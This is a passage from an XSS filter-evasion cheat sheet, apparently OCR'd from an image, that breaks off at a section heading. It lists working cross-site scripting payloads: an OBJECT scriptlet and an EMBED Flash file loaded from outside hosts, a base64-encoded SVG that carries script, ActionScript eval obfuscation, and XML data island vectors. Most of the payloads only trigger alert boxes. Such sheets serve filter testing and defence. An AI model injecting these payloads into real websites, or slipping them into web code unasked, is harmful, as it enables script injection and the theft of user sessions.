 ````
If they allow objects, you can also inject virus payloads to infect the users, etc. and same with the APPLET tag). The linked file is actually an HTML file that can contain your XSS:

`<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>`

EMBED a Flash Movie That Contains XSS
-------------------------------------

Click here for a demo: http://ha.ckers.org/xss.swf

`<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>`

If you add the attributes `allowScriptAccess="never"` and `allownetworking="internal"` it can mitigate this risk (thank you to Jonathan Vanasco for the info).

EMBED SVG Which Contains XSS Vector
-----------------------------------

This example only works in Firefox, but it’s better than the above vector in Firefox because it does not require the user to have Flash turned on or installed. Thanks to nEUrOO for this one.

`<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>`

Using ActionScript Inside Flash for Obfuscation
-----------------------------------------------

```
a="get";
b="URL(\"";
c="javascript:";
d="alert('XSS');\")"; 
eval(a+b+c+d);
```

XML Data Island with CDATA Obfuscation
--------------------------------------

This XSS attack works only in IE and Netscape 8.1 in IE rendering engine mode) - vector found by Sec Consult while auditing Yahoo:

```
<XML ID="xss"><I><B><IMG SRC="javascript:alert('XSS')"></B></I></XML> 
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

Locally hosted XML with embedded JavaScript that is generated using an XML data island
--------------------------------------------------------------------------------------

This is the same as above but instead referrs to a locally hosted (must be on the same server) XML file that contains your cross site scripting vector. You can see the result here:

```
<XML SRC="xsstest.xml" ID=I></XML>  
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
```

HTML+TIME in XML
----------------

````